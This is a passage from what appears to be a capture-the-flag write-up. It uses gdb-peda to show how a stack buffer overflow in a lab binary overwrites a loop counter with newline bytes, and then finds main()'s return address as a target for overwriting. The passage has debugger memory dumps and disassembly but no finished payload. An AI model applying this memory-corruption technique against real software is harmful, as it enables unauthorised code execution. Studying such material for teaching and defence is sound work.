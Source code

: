 Now, if we check the address `0xbffff67c` we see the **0x00000002** value which represents the **i** variable. Here, the idea is to set a value equal or higher than **0x0a** so, if we enter 12 characters, the **i** variable will be replaced by the *newline* characters (*0xa*).

```nasm
gdb-peda$ conti
Continuing.
CCCCCCCCCCCC
^C <-- CRTL+C !!
Program received signal SIGINT, Interrupt.

...[snip]...

Stopped reason: SIGINT
0xb7fdbd4c in __kernel_vsyscall ()
gdb-peda$ x/16x 0xbffff670
0xbffff670: 0x43434343  0x43434343  0x43434343  0x0000000b
0xbffff680: 0xbffff687  0x00434241  0x0804a000  0x08048852
0xbffff690: 0x00000001  0xbffff754  0xbffff6b8  0x080487e6
0xbffff6a0: 0xb7fcd3c4  0xb7fff000  0x0804880b  0xb7fcd000
```

If we recheck the value at `0xbffff67c`, it is now set to **0x0000000b** (because the *for* loop will execute `locals.i++`). Now, the loop will run until we enter a simple line return (**\n**) as per the *if* condition (`locals.word_buf[0] == '\n'`).

The next step is to locate the return address in order to know how many words we need to enter to overwrite it. To do this, we just need to disassemble the *main()* function and see the address of the instruction called after *concatenate_first_chars()*.

```nasm
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080487b6 <+0>: push   ebp
   0x080487b7 <+1>: mov    ebp,esp
   0x080487b9 <+3>: and    esp,0xfffffff0
   0x080487bc <+6>: sub    esp,0x10
   0x080487bf <+9>: cmp    DWORD PTR [ebp+0x8],0x1
   0x080487c3 <+13>:    je     0x80487e1 <main+43>
   0x080487c5 <+15>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080487c8 <+18>:    mov    eax,DWORD PTR [eax]
   0x080487ca <+20>:    mov    DWORD PTR [esp+0x4],eax
   0x080487ce <+24>:    mov    DWORD PTR [esp],0x804890a
   0x080487d5 <+31>:    call   0x80485a0 <printf@plt>
   0x080487da <+36>:    mov    eax,0x1
   0x080487df <+41>:    jmp    0x80487f7 <main+65>
   0x080487e1 <+43>:    call   0x804871d <concatenate_first_chars> ; call to concatenate_first_chars()
   0x080487e6 <+48>:    mov    DWORD PTR [esp],0x8048915 ; return
   0x080487ed <+55>:    call   0x80485c0 <puts@plt>
   0x080487f2 <+60>:    mov    eax,0x0
   0x080487f7 <+65>:    leave
   0x080487f8 <+66>:    ret
End of assembler dump.
```
